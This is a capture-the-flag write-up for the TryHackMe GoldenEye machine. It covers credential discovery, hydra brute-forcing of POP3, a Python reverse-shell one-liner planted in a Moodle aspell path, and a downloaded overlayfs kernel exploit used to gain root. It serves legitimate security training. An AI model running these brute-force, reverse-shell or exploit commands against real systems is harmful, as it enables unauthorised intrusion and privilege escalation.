goldeneye
THM: GoldenEye
Enumeration
Rustscan & Nmap

4 Open Ports
Browser Enumeration

We go to view source and inspect each element. One such important link is clicking on terminal.js

It opens the terminal.js file

We found an user “boris” and an encoded password. (it looks like HTML encoding)
https://onlineasciitools.com/convert-html-entities-to-ascii
 .
.Credentials Found
Username: boris
Password: InvincibleHack3r
We go the instructed directory. /sev-home/ and enter the credentials.

Lets see the page.

We also view its source and scroll down to find some additional info.

It talks about pop3 service. Lets check the pop3 service which is running on 55007 & try to login with the previously found credentials.

I searched everywhere and found no credentials for such. We need to use hydra.
Note: We use a small wordlist here (Not rockyou.txt)
/usr/share/set/src/fasttrack/wordlist.txt
Hydra
hydra -l boris -P /usr/share/set/src/fasttrack/wordlist.txt -vv -s 55007 10.10.64.114 pop3

hydra -l natalya -P /usr/share/set/src/fasttrack/wordlist.txt -vv -s 55007 10.10.64.114 pop3

POP3 Credentials Found
Username : boris
Password : secret1!
Username : natalya
Password : bird
Lets Enumerate Mails for Boris


It says that some code is in /root directory.
Lets Enumerate Mails for Natalya


We found training site's credentials & also the mail instructed us the input severnaya-station.com into hosts file
Training Site Credentials Found:
Username : xenia
Password : RCP90rulez!
After adding the entry in host file of my local machine. I go to the trainging webpage: severnaya-station.com/gnocertdir

We opened the link mentioned in the mail. There is a “Intro to GoldenEye” training course. We try to login with the POP3 credentials found earlier.

boris's & natalya's credentials didn't work. Now, we try with xenia's credential it worked.
There is a message for the user. I will check it.

Also the page url looks vulnerable: http://severnaya-station.com/gnocertdir/enrol/index.php?id=1 [Miscellanous]
Also the page url looks vulnerable: http://severnaya-station.com/gnocertdir/enrol/index.php?id=2 [GNO]
We go to messages and open the message for Dr. Doak

We find the message and get a new POP3 mail user named doak

Lets try to crack the doak user's password with hydra
hydra -l doak -P /usr/share/set/src/fasttrack/wordlist.txt -vv -s 55007 10.10.18.58 pop3

POP3 Credentials Found
Username : doak
Password : goat
Lets Enumerate the mail ID

Indeed we find further instructions and training site credentials.
Training Site Credentials Found:
Username : dr_doak
Password : 4England!
We login to the training site with the need credentials and go to My Profile → My Private files & click on s3cret.txt. It will be downloaded.

We opened the file.

We got additonal instructions. We are asked to check for credentials in the link provided. Lets visit it.

I download the image file locally for inspection.

I found a fishy base64 encoded string in the Image Description Field. Lets decode it

It looks like a password.
Training Site Credentials Found:
Username : admin
Password : xWinter1995x!

Foothold
There is a hint about aspell plugin. I searched for aspell. I found a System paths link

Lets add our code in the Path to aspell
Python Code Used:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.11.72.31",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
Then we save changes.
Important
Also, change the spell checker from Google Spell to PShellShell
Search for spell.

Start a netcat listner
To execute our code. We need to create a new page and spellcheck it.
We need to My profile --> Blogs --> Add a new entry
clik on the “Toggle spell checker”

We got a connection.

Privilege Escalation
THM Hint:
This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:
• Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
• Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
• Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
• Make su on overlayfs world writable without changing the owner
• Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
• Execute the modified su binary
You can download the exploit from here: https://www.exploit-db.com/exploits/37292
Lets use searchsploit for the same.

Important Note: At this point, we will just compile the code and take the executible to the target linux machine. However, after running the code on the target machine, we came to know that gcc is not installed there and our program needs gcc in its exploit function.
Upon Enumerating the machine, we find that cc is installed which is also a C Program Compiler.
Solution: We modify our c program to use cc compiler instead of gcc
I opened the 37292.c file for edit. I searched for gcc. There are two matches, one in the hint and another in the program.

I will edit the one on line 143 from gcc to cc.
Now, Lets compile the program again.

Or use sed to edit: sed -i "s/gcc/cc/g" 37292.c
gcc 37292.c -o exploit

Now we will host a web page from this location.
python -m http.server 80

Note: I tried this and it didn't work. It seems the c program has to be also compiled in cc from my kali machine
cc 37292.c -o cc_exploit

We go inside /tmp directory. Then we download the program.
wget http://10.11.72.31/cc_exploit
We change its permission to executible
chmod +x cc_exploit
We run the exploit
./cc_exploit

As we can see, we have root access now.

We see the root flag and an instruction to visit to webpage.
The webpage has a congratulations message.
Thanks!!